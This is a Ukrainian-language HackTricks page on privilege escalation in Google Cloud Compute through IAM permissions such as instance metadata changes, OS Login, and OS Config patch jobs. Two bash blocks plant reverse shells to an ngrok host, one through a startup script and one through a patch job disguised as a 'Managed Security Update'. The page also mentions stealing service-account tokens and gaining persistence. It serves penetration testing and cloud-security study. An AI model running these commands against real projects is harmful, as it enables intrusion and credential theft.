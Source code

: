 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Для отримання додаткової інформації про Compute та VPC (мережу) в GCP перевірте:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Зверніть увагу, що для виконання всіх атак підвищення привілеїв, які вимагають зміни метаданих екземпляра (наприклад, додавання нових користувачів та SSH ключів), **необхідно, щоб у вас були права `actAs` на SA, прикріплену до екземпляра**, навіть якщо SA вже прикріплена!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

З цим дозволом ви можете **модифікувати** інформацію про **метадані** **екземпляра** та змінити **авторизовані ключі користувача**, або **створити** **нового користувача з правами sudo**. Таким чином, ви зможете виконати SSH в будь-який екземпляр VM і вкрасти GCP Service Account, з яким працює екземпляр.\
Обмеження:

* Зверніть увагу, що GCP Service Accounts, які працюють в екземплярах VM, за замовчуванням мають **дуже обмежений обсяг**
* Вам потрібно буде **мати можливість зв'язатися з сервером SSH** для входу

Для отримання додаткової інформації про те, як експлуатувати цей дозвіл, перевірте:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Ви також можете виконати цю атаку, додавши новий стартовий скрипт і перезавантаживши екземпляр:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Ця дозволяє надає **ті ж привілеї, що й попереднє дозволу**, але для конкретних інстансів, а не для всього проекту. **Ті ж експлойти та обмеження, що й для попереднього розділу, застосовуються**.

### `compute.instances.setIamPolicy`

Цей тип дозволу дозволить вам **наділити себе роллю з попередніми дозволами** та ескалувати привілеї, зловживаючи ними.

### **`compute.instances.osLogin`**

Якщо **OSLogin увімкнено в інстансі**, з цим дозволом ви можете просто виконати **`gcloud compute ssh [INSTANCE]`** і підключитися до інстансу. Ви **не матимете root привілеїв** всередині інстансу.

{% hint style="success" %}
Щоб успішно увійти з цим дозволом всередині VM інстансу, вам потрібно мати дозвіл `iam.serviceAccounts.actAs` на SA, прикріплену до VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Якщо **OSLogin увімкнено в інстансі**, з цим дозволом ви можете просто виконати **`gcloud compute ssh [INSTANCE]`** і підключитися до інстансу. Ви матимете **root привілеї** всередині інстансу.

{% hint style="success" %}
Щоб успішно увійти з цим дозволом всередині VM інстансу, вам потрібно мати дозвіл `iam.serviceAccounts.actAs` на SA, прикріплену до VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Можливо **створити віртуальну машину з призначеним обліковим записом служби та вкрасти токен** облікового запису служби, отримуючи доступ до метаданих для ескалації привілеїв до нього.

Скрипт експлойту для цього методу можна знайти [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Якщо у вас є **`osconfig.patchDeployments.create`** або **`osconfig.patchJobs.exec`** дозволи, ви можете створити [**роботу з патчами або розгортання**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Це дозволить вам переміщатися в середовищі та отримати виконання коду на всіх обчислювальних інстансах у проекті.

Зверніть увагу, що на даний момент вам **не потрібен дозвіл `actAs`** на SA, прикріплену до інстансу.

Якщо ви хочете вручну експлуатувати це, вам потрібно створити або [**роботу з патчами**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **або** [**розгортання**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Для роботи з патчами виконайте: 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Щоб розгорнути патч-розгортання:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Інструмент [patchy](https://github.com/rek7/patchy) міг бути використаний у минулому для експлуатації цієї неконфігурації (але зараз він не працює).

**Зловмисник також може зловживати цим для постійності.**

### `compute.machineImages.setIamPolicy`

**Надайте собі додаткові дозволи** на образи обчислень.

### `compute.snapshots.setIamPolicy`

**Надайте собі додаткові дозволи** на знімок диска.

### `compute.disks.setIamPolicy`

**Надайте собі додаткові дозволи** на диск.

### Обхід доступу до обсягів

Слідуючи за цим посиланням, ви знайдете деякі [**ідеї для спроби обійти доступ до обсягів**](../).

### Локальне підвищення привілеїв у GCP Compute інстансі

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Посилання

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримка HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}
